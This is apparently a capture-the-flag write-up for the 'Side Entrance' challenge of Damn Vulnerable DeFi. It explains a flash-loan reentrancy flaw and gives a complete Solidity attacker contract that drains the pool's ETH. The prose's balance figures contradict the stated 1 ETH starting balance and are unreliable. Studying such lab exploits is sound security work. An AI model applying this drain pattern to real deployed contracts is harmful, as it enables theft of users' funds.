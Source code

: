# #4 Side Entrance Damn Vulnerable Defi

## Goals

=> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool

### Hints

- None

### Solution

- The vulnerability lies in the `flashLoan()` function which calls an external contract and calls the execute function.
- At first we need to deposit 1k ETH to the pool as the player. Through a malicious implementation of the execute function we can now perform a reentrancy attack and deposit the loaned tokens so we pass the if check + the balance of the player gets increased by the amount we passed into the `flashLoan()` function, we then only need to withdraw our balance which sould be 2k now (1k deposited + 1k deposited tokens which came from the flashLoan)

### Attacker Contract

```solidity
contract Hack {
    SideEntranceLenderPool targetContract;
    address owner = msg.sender;

    constructor(address _targetContract) {
        targetContract = SideEntranceLenderPool(_targetContract);
    }

    function attack(uint256 amount) external payable {
        // 1000 ether => 1000000000000000000000
        targetContract.flashLoan(amount);
    }

    function deposit(uint256 amount) external payable {
        targetContract.deposit{value: amount}();
    }

    function withdraw() external payable {
        targetContract.withdraw();
    }

    function execute() external payable {
        // reentrancy through this function deposit 1000 ether
        targetContract.deposit{value: 1000000000000000000000}();
    }

    function withdrawStolenFunds() external {
        // since we did perform a reentrancy
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```
